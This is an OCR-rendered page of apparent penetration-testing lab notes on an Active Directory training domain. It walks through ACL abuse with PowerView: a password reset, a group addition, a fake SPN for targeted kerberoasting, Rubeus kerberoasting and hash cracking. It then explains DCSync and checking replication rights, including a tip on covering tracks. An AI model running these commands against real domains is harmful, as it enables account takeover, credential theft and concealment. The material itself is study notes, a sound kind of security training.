 3. Change damundsen's password with PowerView
```
PS C:\htb> cd C:\Tools\
PS C:\htb> Import-Module .\PowerView.ps1
PS C:\htb> Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -
Credential $Cred -Verbose
```

4. Authenticate as "damundsen" via a PSCredential Object
```
PS C:\htb> $SecPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
PS C:\htb> $Cred2 = New-Object
System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword)
```

5. Add damundsen to the "Help Desk Level 1 Group" with Powershell
```
Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -
Credential $Cred2 -Verbose
```

6. Rather than changing adunn's password, set can do a targeted kerberoast attack. Create a fake
```
SPN
PS C:\htb> Set-DomainObject -Credential $Cred2 -Identity adunn -SET
@{serviceprincipalname='notahacker/LEGIT'} -Verbose
```

7. Kerberoast the adunn user with Rubeus
```
PS C:\htb> .\Rubeus.exe kerberoast
/user:adunn /nowrap
```

8. Crack the hash with hashcat and we now have access to the adunn user for a DC-Sync attack!


DCSync

What is DCSync?
DCSync is a technique for stealing the Active Directory password database by using the built-in Directory Replication Service Remote Protocol, which is used by Domain Controllers to replicate domain data. This allows an attacker to mimic a Domain Controller to retrieve user NTLM password hashes.

Requirements:
- Need an account with "Replicating Directory Changes" and "Directory Changes All" permissions set
- Domain/Enterprise Admins have this by default

1. Use Get-DomainUser to View Group Membership of user
```
PS C:\htb> Get-DomainUser -Identity adunn |select
samaccountname,objectsid,memberof,useraccountcontrol |fl
```

2. Using SID from above command, check if user has the rights for a DC-Sync attack
```
PS C:\htb> $sid= "S-1-5-21-3842939050-3880317879-2865463114-1164"
PS C:\htb> Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? {
($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select
AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl
```
- If we had certain rights over the user (such as WriteDacl), we could also add this privilege to a user under our control, execute the DCSync attack, and then remove the privileges to attempt to cover our tracks
